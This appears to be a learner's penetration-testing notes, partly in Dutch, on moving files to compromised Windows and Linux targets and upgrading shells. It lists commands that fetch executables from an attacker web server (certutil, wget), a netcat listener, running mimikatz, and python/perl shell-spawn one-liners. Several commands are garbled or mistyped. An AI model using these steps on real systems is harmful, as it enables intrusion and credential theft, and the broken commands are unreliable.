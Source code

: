 ## Transferring Files
 sudo nmap -sV -sT -sC {IP} -p- --open

heart 1
#####  set up webserver with python
Two step approach where you need to host the files you want to transfer on a web server (1) and download the files hosted on the web server to the target system (2). 

**SimpleHTTPServer => python2
http.server => python3** 

- copy file: `cp path/file.exe .` 
- set up http server: 
	- with python2: `python -m SimpleHTTPServer port`
	- with python 3: `python3 -m http.server port`


##### Transfer to windows targets

- exploit vulnerability with searchsploit
- read comments in exploit file 
- start http server in correct location where file is stored: 
- set up netcat listener 
- simple command shell session is established (if it did not work run again )
transfer file to target system in `tmp` directory 
- ./mimikatz.exe is to execute the file

Downloading without python http-server
- in a command shell, download file: `certutil -urlcache -f http://adres_webserver
- _ip/filename_downloading.exe file_savingname.exe`

10.2.26.89 target 
10.10.11.2

##### Transfer to linux targets 



- tmux (multiple terminal sessions in 1)
	- new: control + B + C 
	- *  is waar je nu active in bent 
	- new: control + B + 0 
	- control + pijltjes om te scrollen 
	- to get a list of all commands: `Ctrl+b` `?` 
	- detach from the Tmux session and return to your normal shell by typing: `Ctrl+b` `d
	-  `Ctrl+b` `c` Create a new window (with shell)
	- `Ctrl+b` `w` Choose window from a list
	- `Ctrl+b` `0` Switch to window 0 (by number )
	- `Ctrl+b` `,` Rename the current window
	- `Ctrl+b` `%` Split current pane horizontally into two panes
	- `Ctrl+b` `"` Split current pane vertically into two panes
	- `Ctrl+b` `o` Go to the next pane
	- `Ctrl+b` `;` Toggle between the current and previous pane
	- `Ctrl+b` `x` Close the current pane
	- `q` om te kunnen typen 


/samba/is_known_pipename
- `/bin/bash -i `
- `cat /etc/*release`

transfer file to victim 
- `control+b c `
- set up python file server in the right path: `python3 -m http.server 80` 
- Download file `wget http://adres_webserver/filename.exe ` 





## Shells 

##### Upgrading non-interactive shells 

Non interactive shell is a shell without a prompt ![[Pasted image 20230920164420.png]]

**How to get interactive shell**

Method 1
- list shells installed don system: `etc /etc/sells 
	- use any of the shells and add `-i `
	  
Method 2 getting interactive shell with programming languages 
- version of python is installed: `python version`
	- `python -c 'import pty; pty.spawn("/bin/bash")' `
- perl
	- `perl help `
	- `perl: exec "/bin/bash";
- ruby
	- `ruby: exec "bin/bash"`


Method: 3 getting interactive shell 
Get interactive shell through:
- Enter the following command to set the PATH environment variable, which tells the system where to find executable files: `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr:/bin:sbin:/bin `
- This will display a list of environment variables, including the one you just set. `env` 
- This command specifies the terminal type you'll be using in your shell session. `export TERM=xtern`
- This command sets your default shell to Bash. `export SHELL=bash` 
- to view the contents of the current directory with additional details (including file sizes and permissions), use the following command:  `ls -alps`
